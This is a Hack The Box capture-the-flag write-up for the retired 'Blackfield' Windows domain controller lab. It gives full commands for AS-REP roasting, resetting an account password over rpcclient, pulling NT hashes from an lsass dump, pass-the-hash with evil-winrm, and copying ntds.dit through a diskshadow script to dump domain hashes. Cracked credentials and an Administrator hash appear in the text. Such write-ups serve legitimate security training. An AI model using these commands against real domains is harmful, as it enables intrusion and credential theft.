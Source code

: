 ```yaml
---
title: Blackfield Writeup [HTB]
tags: [HackTheBox, Active Directory, AS-REP Roasting]
image: /assets/images/blackfield/blackfield.png
published: true
banner: true
---
```


Blackfield is a Windows based machine that was active since June 06 of 2020 to October 03, we will start this machine making a list of posible users according to a windows share, then we will get some valid users enumerating kerberos with nmap and metasploit, after that we will get a TGS using kerberoasting and cracking it, with those credentials we will connect using rpcclient and reset the password of an account called "audit2020", with that account we will access to a share that contains a lsass dump, we will download it and using pypykatz we will dump some NT hashes, we will access to the machine performing a pass the hash with the account "svc_backup", that account can create a shadowcopy of the system, so we will use that with robocopy to get a copy of the ntds.dit file and get the hashes of the domain.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.192
nmap -Pn -sC -sV -p 88,5985,389,593,445,135,3268,53 -o scan.txt 10.10.10.192

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-06-13 05:26:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that we are facing a Windows domain controller, we tried to enumerate the domain with `ldapsearch`, but we need credentials to be able to request ldap information, we just got what nmap told us, that the domain is "BLACKFIELD.local", since doesn't seem like we will get something out from ldap we went to the next "juicy" service, windows shares, using crackmapexec we saw some shares: `cme smb 10.10.10.192 -u "Guest" -p "" --shares`

![](/assets/images/blackfield/cme.png)

We can read "profiles$", so we use smbmap to list every file and folder inside of it: `smbmap -u "Guest" -H 10.10.10.192 -R profiles$`

![](/assets/images/blackfield/smbmaphead.png)

## [](#header-2)AS-REP Roasting

Since there is a lot of folders the command takes a while to finish, but we don't see any file just a bunch of folders, but if we put atention we notice that those folders also look like usernames, so we copy the output, and filter it in order to get a list of users that we will call "users.txt". I like to validate users using nmap and metasploit, if we use nmap we find two users, to make the scan with nmap we use the next command: `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='BLACKFIELD.local',userdb=users.txt" 10.10.10.192 -Pn`

![](/assets/images/blackfield/nmapkrb.png)

It is always important to remember that the tools are not perfect, so having more than one in our bag can save us, so we throw metasploit module "kerberos_enumusers" with the same wordlist, here something weird happens, we get an error.

![](/assets/images/blackfield/msferror.png)

I saw the same error on my [Saunas's writeup](https://medium.com/@5ubterranean/htb-sauna-write-up-espa%C3%B1ol-67d4d0eff1c6) (notice that it is written in Spanish, and there I made a huge mistake saying that we used Kerberoasting when it was AS-REP Roast), and that is a sign that we can use AS-REP Roast against that account, if we  remove "support" from the worlist msf finds the same users as nmap. Well since we found a suspicious account we will use "GetnNPUsers" from impacket, so we use the next command without supplying a password to get a TGT that can be cracked with john: `python3 GetNPUsers.py BLACKFIELD.local/support: -dc-ip 10.10.10.192 -format john`

![](/assets/images/blackfield/krbtgt.png)

We save the hash as "tgthash" and crack it with john, and we get that the password is "#00^BlackKnight".

![](/assets/images/blackfield/johntgt.png)

# [](#header-1)Gaining Access

Now that we have some credentials we can login through rpcclient, enumerate the users with `enumdomusers` and get another username, "audit2020".

![](/assets/images/blackfield/rpcclient.png)

Well without a password that's not very useful, but we are using an account called "support", a common function of technical support people is to restore passwords, so maybe there is a way of doing that with rpcclient, after going throught a lot of google pages we found this [blog](https://malicious.link/post/2017/reset-ad-user-password-with-linux/), where it's shown how to do that, so we can use the support account to set a password to audit2020 account, to do that we use the command `setuserinfo audit2020 23 "5ubterraneaN"`. Once we have set a new password for audit2020 we check with crackmapexec which new access we have.

![](/assets/images/blackfield/cmeaudit.png)

Well now we have access to "forensics" folder, by its name we can guess that we might find a SAM dump or some kind of sensitive file dumped from memory, since we are in an enviroment where there is a lot of people trying to solve the same box the password of audit2020 can be changed at any time, so in order to avoid that we mount the share, we create a share folder and execute `sudo mount -t cifs -o user=audit2020 \\\\10.10.10.192\\forensic share`. Once the folder is mounted we check their contents and see a "memory_analysis" folder, and inside of it we find a dump of "lsass" just as we thought.

![](/assets/images/blackfield/forensic.png)

We could go to a windows machine and use mimikatz on it, but there is better way, [pypykatz](https://github.com/skelsec/pypykatz), once we have pypykatz installed we can run: `pypykatz lsa minidump lsass.DMP`, we don't get any password, but we find some NT hashes which we can use to access to the machine performing pass the hash, on this case we are interested on svc_backup user.

![](/assets/images/blackfield/pypykatz.png)

With that we can use evil-winrm to get access to the machine and recover "user.txt".

![](/assets/images/blackfield/shell1.png)

# [](#header-1)Privilege Escalation

We use `whoami /all` to retrieve our persmissions on the machine and we see an interesting group, "backup operators".

![](/assets/images/blackfield/whoami.png)

If we google around there are some blogs of how to use this group to dump the ntds.dit file, on this case we use the diskshadow part of this [blog](https://pentestlab.blog/tag/ntds-dit/), but it doesn't mention [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) which will be fundamental in our case, first we create a file called "ds.txt" with the next content:
```
set context persistent nowriters 
set metadata C:\Users\svc_backup\Links\empty\metadata.cab 
add volume c: alias someAlias 
create 
expose %someAlias% j: 
exec "cmd.exe" /c copy j:\windows\ntds\ntds.dit c:\Users\svc_backup\Links\empty\ntds.dit 
delete shadows volume %someAlias% 
reset
```
Something strange that happens is that when we execute the command to create the shadow copy it won't read the last character of every line on the file, so we must leave a blankspace at the end of every line of "ds.txt", then we upload the file, if the file is located where we launched evil-winrm uploading it is as simple as writing `upload ds.txt`, then we run `diskshadow /s C:\Users\svc_backup\Links\empty\ds.txt` (notice we are using the absolute path where the file is located). On the examples found online this is enough to get the ntds.dit file, but this time it doesn't work, that is beacuse the copy operaction has to be performend with the backup operators group permissions, and copy doesn't use them, so we have to use robocopy: `robocopy j:\windows\ntds\ ntds.dit ntds.dit /b`, after that we will find the file in the directory ntds.dit.

![](/assets/images/blackfield/ntds.png)

One more time getting the file is as easy as writing `download ntds.dit\ntds.dit` thanks to evil-winrm. We will also need the "system" file so we repeat the previous steps but with it, once we have both files we can use secretsdump to get all the hashes inside ntds.dit and save them to a file, to do that we run: `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system LOCAL > hashes`. Now we can use evil-winrm as Administrator with his hash to finish the machine: `evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee`.

![](/assets/images/blackfield/root.png)

If we wanted we could have used psexec to get a shell as authority system, but there is no need for that.
